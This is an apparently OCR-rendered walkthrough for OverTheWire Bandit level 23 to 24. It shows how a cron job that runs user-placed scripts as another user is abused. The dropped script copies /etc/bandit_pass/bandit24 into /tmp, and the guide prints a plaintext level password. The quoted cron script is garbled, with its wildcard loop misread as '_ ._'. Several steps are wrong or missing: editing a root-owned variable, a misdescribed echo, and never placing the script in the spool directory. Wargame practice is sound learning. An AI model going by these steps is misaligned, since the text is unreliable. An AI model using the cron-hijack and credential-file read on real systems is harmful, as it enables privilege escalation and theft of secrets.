 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

- `cron`
- `crontab`
- `crontab(5)` (use “man 5 crontab” to access this)

# Answer

To solve Bandit Level 23 → Level 24, you'll need to create a shell script and have it executed by cron. Follow these steps:

1.  Log into the server for Level 23 using SSH. The command is:

    ```bash
    ssh bandit23@bandit.labs.overthewire.org -p 2220
    ```

    Enter the password when prompted (the password is the one you found in Level 22).

2.  Check the contents of the `/etc/cron.d/cronjob_bandit24` directory to find the configuration for the cron job:

    ```bash
    cat /etc/cron.d/cronjob_bandit24
    ```

3.  Look for the line that specifies the command being executed and examine it to see what it does.

    ```bash
    bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    ```

4.  The cron configuration may use a script or directly specify a command. Identify the command that is being executed.

5.  Concatenate the script directory to identify its purpose:

    ```bash
    cat /usr/bin/cronjob_bandit24.sh

    ```

6.  Examine the output:

    ```bash
     #!/bin/bash

     myname=$(whoami)

     cd /var/spool/$myname/foo
     echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
     for i in _ ._;
     do
     if [ "$i" != "." -a "$i" != ".." ];
     then
     echo "Handling $i"
         owner="$(stat --format "%U" ./$i)"
         if [ "${owner}" = "bandit23" ]; then
     timeout -s 9 60 ./$i
             fi
             rm -f ./$i
     fi
     done
    ```

    This Bash script executes and deletes scripts in `/var/spool/$myname/foo`. It processes files named `_` and `._`, excluding "." and "..". For each file, it checks if the owner is "bandit23" and, if true, executes it with a timeout of 60 seconds before deleting the file.

7.  Replace `myname` variable from bandit23 to bandit24:

    ```bash
    myname=bandit24
    ```

8.  Execute the script below to output the password of `bandit24` to the temporary directory.

    ```bash

    echo "cat /etc/bandit_pass/bandit24 > /tmp/password.txt" > get_pass.sh

    ```

    This command creates a script named `get_pass.sh` that contains the command `echo "cat /etc/bandit_pass/bandit24 > /tmp/password.txt"`. The script essentially echoes the command to copy the password of user "bandit24" to a file named `password.txt` in the `/tmp/` directory.

9.  Make the script executable:

    ```bash
    chmod 777 get_pass.sh
    ```

10. Wait for a minute, and then check if your script was executed. You may want to check the output. If you want to keep a copy of the output, you can redirect it to a file:

11. Now, you should be able to retrieve the password for Level 24. The password is typically stored in the `/tmp/` directory or the `/var/spool` directory.

    ```bash
    cat /tmp/password.txt
    ```

    ```bash
    VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
    ```

12. Once you have the password, use it to log in to Level 24 using SSH:

    ```bash
    ssh bandit24@bandit.labs.overthewire.org -p 2220
    ```

    Enter the password when prompted.
